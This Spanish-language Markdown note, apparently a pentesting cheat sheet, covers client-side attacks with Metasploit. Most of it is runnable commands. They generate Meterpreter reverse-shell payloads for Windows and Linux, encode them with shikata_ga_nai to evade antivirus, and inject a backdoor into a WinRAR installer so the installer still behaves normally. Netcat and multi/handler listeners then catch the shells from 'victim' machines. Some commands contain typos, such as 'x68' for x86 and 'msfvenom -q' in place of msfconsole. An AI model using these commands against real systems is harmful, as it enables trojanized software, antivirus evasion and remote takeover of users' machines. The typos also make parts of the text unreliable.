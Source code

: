 # Ataques del lado del cliente con Metasploit 

Tags: #Metasploit #Msfvenom #Encode #Payloads #Shellcode #AntiVirus #InjectPayloads #Automatizar

* Client-Side Attacks: Es un vector de ataque hace que un cliente ejecute un payload malicioso en su sistema que consecuentemente hará una conexión trasera con un atacante cuando sea ejecutado. Utiliza documentos o archivos ejecutables. 

## Msfvenom Payloads

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Para Windows 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx86.exe

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (exe, war, etc...)

❯ msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f exe > /home/kali/Desktop/payloadx64.exe
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                 # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
1. Debemos crear el Msfvenom en nuestra maquina Linux 

❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx86

	# LHOST = IP de atacante 
	# LHOST = Puerto de atacante 
	# p = Payload
	# a = Arquitectura x64, x86
	# f = Formato de salida y la ruta en donde nos lo creara (elf, exe, war, etc...) y podemos o no agregarle la extension 

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -f elf > ~/Desktop/payloadx64
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                   # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

## Encodear Payload con MSF

* Se utiliza el encodeamiento de los payload ya que los atacantes después de transferir y almacenar los payloads maliciosos en los discos duros de los clientes, los atacantes necesitan estar consientes de la detección de los Antivirus (AV).  Los usuarios finales de soluciones de AV utilizan detección basada en orden para identificar archivos o ejecutables maliciosos. Podemos evadir los AV encodeando nuestros payloads. Encodear es un proceso de modificar el Shellcode del payload con el objetivo de modificar la firma del payload. 

* Shellcode: Es una pieza de código típicamente usada como un payload para explotación. 

```bash 
❯ msfconsole --list encoders               # Lista de encoders
```

### Para Windows 

```bash 
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe
	# e = Nombre del encoder 


❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f exe > /home/kali/Desktop/encodex86.exe

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```

### Para Linux 

```bash 
❯ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -i 10 -e x86/shikata_ga_nai -f elf > /home/kali/Desktop/encodex86

	# e = Nombre del encoder 
	# i = Iteraciones 
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Linux 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfconsole -q                   # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload linux/x68/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```


## Inyectar Payload dentro de ejecutables portables de Windows 

```bash 
1. Debemos descargar un archivo ejecutable de Google (WinRAR = wrar6.exe)
```

```bash 
# Creamos el payload y se lo pasamos a un archivo ejecutable 'confiable'
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# x = Especificar el archivo ejecutable para usar como plantilla (No inicia el proceso del archivo ejecutable)

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar6.exe > ~/Desktop/Winrar.exe
	# k = Preserva la plantilla con el comportamiento original del ejecutable y ademas inyecta el payload (Inicia normal el proceso del archivo ejecutable)
```

```bash 
2. Debemos de transferir el archivo a la maquina victima Windows 
```

```bash
3. Nos ponemos en escucha para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
❯ rlwrap nc -nlvp 443
```

```bash 
3. Nos ponemos en escucha con MSF para cuando se ejecute el payload en la maquian victima podamos establecer la Revershell
# Con el archivo malicioso hecho en msfvenom, hacemos lo siguiente y nos pondriamos en 'listening'

❯ msfvenom -q                  # q = Quitar el banner de inicio

	❯ use multi/handler                 
	❯ set payload windows/meterpreter/reverse_tcp           # Colocamos el mismo payload que en el msfvenom
	❯ options
	❯ set LHOST 192.168.68.1                     
	❯ set LPORT 1234
	❯ run
```